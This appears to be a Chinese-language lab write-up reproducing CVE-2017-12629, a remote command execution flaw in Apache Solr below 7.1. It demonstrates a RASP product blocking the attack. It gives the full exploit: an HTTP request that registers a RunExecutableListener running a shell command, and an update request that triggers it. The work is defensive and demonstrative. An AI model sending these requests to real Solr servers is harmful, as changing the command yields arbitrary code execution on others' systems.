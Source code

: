 # CVE-2017-12629

## 漏洞简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。
原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。
7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）

## 影响版本

Apache Solr < 7.1

Apache Lucene < 7.1（很多组件都用到这个，比如ES）

## 复现环境

### 下载Solr

[solr 7.0.1](https://archive.apache.org/dist/lucene/solr/7.0.1/)

### 启动Solr

```json
 bin/solr start
```

这样就可以在后台启动Solr，并监听8983端口，启动脚本会检查启动的正确性并返回提示信息到控制台。
这时就可以通过浏览器来访问管理控制台(http://localhost:8983/solr/)。

### 创建Core
如果没有使用示例配置，为了能够建立索引和查询，这里必须创建一个Core

```
bin/solr create -c Urahara # Urahara为你要创建的Core的名称
```

### 添加文档

这时候Solr中还是空的，我们需要添加一些文档以便进行索引。在example/目录的子目录下有不同的类型。

```
bin/post -c Urahara example/exampledocs/*.xml
```

```json
 solr-7.0.1 bin/post -c Urahara example/exampledocs/*.xml
/Library/Internet Plug-Ins/JavaAppletPlugin.plugin/Contents/Home/bin/java -classpath /Users/xxxx/Downloads/solr-7.0.1/dist/solr-core-7.0.1.jar -Dauto=yes -Dc=Urahara -Ddata=files org.apache.solr.util.SimplePostTool example/exampledocs/gb18030-example.xml example/exampledocs/hd.xml example/exampledocs/ipod_other.xml example/exampledocs/ipod_video.xml example/exampledocs/manufacturers.xml example/exampledocs/mem.xml example/exampledocs/money.xml example/exampledocs/monitor.xml example/exampledocs/monitor2.xml example/exampledocs/mp500.xml example/exampledocs/sd500.xml example/exampledocs/solr.xml example/exampledocs/utf8-example.xml example/exampledocs/vidcard.xml
SimplePostTool version 5.0.0
Posting files to [base] url http://localhost:8983/solr/Urahara/update...
Entering auto mode. File endings considered are xml,json,jsonl,csv,pdf,doc,docx,ppt,pptx,xls,xlsx,odt,odp,ods,ott,otp,ots,rtf,htm,html,txt,log
POSTing file gb18030-example.xml (application/xml) to [base]
POSTing file hd.xml (application/xml) to [base]
POSTing file ipod_other.xml (application/xml) to [base]
POSTing file ipod_video.xml (application/xml) to [base]
POSTing file manufacturers.xml (application/xml) to [base]
POSTing file mem.xml (application/xml) to [base]
POSTing file money.xml (application/xml) to [base]
POSTing file monitor.xml (application/xml) to [base]
POSTing file monitor2.xml (application/xml) to [base]
POSTing file mp500.xml (application/xml) to [base]
POSTing file sd500.xml (application/xml) to [base]
POSTing file solr.xml (application/xml) to [base]
POSTing file utf8-example.xml (application/xml) to [base]
POSTing file vidcard.xml (application/xml) to [base]
14 files indexed.
COMMITting Solr index changes to http://localhost:8983/solr/Urahara/update...
Time spent: 0:00:00.170
```

完成上述操作Solr就已经为这些文档建立索引并包含在这些文件中。

## 发起攻击

### 创建listener

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```json
POST /solr/Urahara/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```
关键命令
```json
{
    "add-listener":{
        "event":"postCommit",
        "name":"newlistener",
        "class":"solr.RunExecutableListener",
        "exe":"sh",
        "dir":"/bin/",
        "args":[
            "-c",
            "touch /tmp/success"
        ]
    }
}
```


使用postman 发送上面的请求

![img.png](../.vuepress/public/images/case/CVE-2017-12629/CVE-2017-12629-postman.png)

### update

然后进行update操作，触发刚才添加的listener：

```
POST /solr/Urahara/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

### 执行结果

/tmp/success 文件创建成功

## RASP防护

开启RASP防护，再次发起请求 。请求已经被阻断，RASP防护生效。
```json
{
  "cmdArray":[
    "sh",
    "-c",
    "touch /tmp/success"
  ],
  "stackTrace":[
    "java.lang.ProcessImpl.start(ProcessImpl.java)",
    "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
    "java.lang.Runtime.exec(Runtime.java:621)",
    "org.apache.solr.core.RunExecutableListener.exec(RunExecutableListener.java:98)",
    "org.apache.solr.core.RunExecutableListener.postCommit(RunExecutableListener.java:137)",
    "org.apache.solr.update.UpdateHandler.callPostCommitCallbacks(UpdateHandler.java:99)",
    "org.apache.solr.update.DirectUpdateHandler2.commit(DirectUpdateHandler2.java:686)",
    "org.apache.solr.update.CommitTracker.run(CommitTracker.java:222)",
    "java.util.concurrent.Executors$RunnableAdapter.call(Executors.java:511)",
    "java.util.concurrent.FutureTask.run(FutureTask.java:266)",
    "java.util.concurrent.ScheduledThreadPoolExecutor$ScheduledFutureTask.access$201(ScheduledThreadPoolExecutor.java:180)",
    "java.util.concurrent.ScheduledThreadPoolExecutor$ScheduledFutureTask.run(ScheduledThreadPoolExecutor.java:293)",
    "java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)",
    "java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)",
    "java.lang.Thread.run(Thread.java:748)"
  ]
}
```

2021-10-11 06:11:44 INFO  method: ProcessImpl.start.before, 耗时: 0.270498 ms

